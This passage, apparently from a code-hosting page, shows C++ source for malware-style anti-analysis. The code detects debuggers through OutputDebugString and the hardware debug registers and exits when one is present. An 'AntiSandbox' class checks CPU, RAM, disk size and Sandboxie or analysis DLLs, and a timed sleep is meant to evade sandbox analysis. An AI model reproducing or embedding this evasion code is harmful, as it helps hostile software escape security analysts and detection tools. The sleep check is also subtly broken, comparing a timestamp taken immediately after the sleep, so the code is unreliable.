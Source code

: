 ```cpp
        // OutputDebugString trick
        SetLastError(0);
        OutputDebugStringA("Test");
        if (GetLastError() == 0) {
            // Debugger present
            ExitProcess(0);
        }
        
        // Hardware breakpoint detection
        CONTEXT ctx;
        ctx.ContextFlags = CONTEXT_DEBUG_REGISTERS;
        GetThreadContext(GetCurrentThread(), &ctx);
        if (ctx.Dr0 || ctx.Dr1 || ctx.Dr2 || ctx.Dr3) {
            ExitProcess(0);
        }
    }
};
```

### **2. Anti-Sandbox**
```cpp
class AntiSandbox {
public:
    static bool isSandbox() {
        // Check CPU cores
        SYSTEM_INFO sysInfo;
        GetSystemInfo(&sysInfo);
        if (sysInfo.dwNumberOfProcessors < 2) return true;
        
        // Check RAM
        MEMORYSTATUSEX memStatus;
        memStatus.dwLength = sizeof(memStatus);
        GlobalMemoryStatusEx(&memStatus);
        if (memStatus.ullTotalPhys < (2ULL * 1024 * 1024 * 1024)) return true; // Less than 2GB
        
        // Check disk size
        ULARGE_INTEGER freeBytesAvailable, totalNumberOfBytes;
        GetDiskFreeSpaceEx(L"C:\\", &freeBytesAvailable, &totalNumberOfBytes, NULL);
        if (totalNumberOfBytes.QuadPart < (50ULL * 1024 * 1024 * 1024)) return true; // Less than 50GB
        
        // Check for sandbox artifacts
        if (GetModuleHandle(L"sbiedll.dll")) return true; // Sandboxie
        if (GetModuleHandle(L"dbghelp.dll")) return true; // Analysis tools
        
        return false;
    }
    
    static void evasiveSleep() {
        // Sleep for extended period to evade sandbox analysis
        Sleep(5 * 60 * 1000); // 5 minutes
        
        // Check if time actually passed (sandbox might accelerate)
        static DWORD lastTime = GetTickCount();
        DWORD currentTime = GetTickCount();
        if ((currentTime - lastTime) < (4 * 60 * 1000)) {
            ExitProcess(0); // Sandbox detected
        }
        lastTime = currentTime;
    }
};
```

---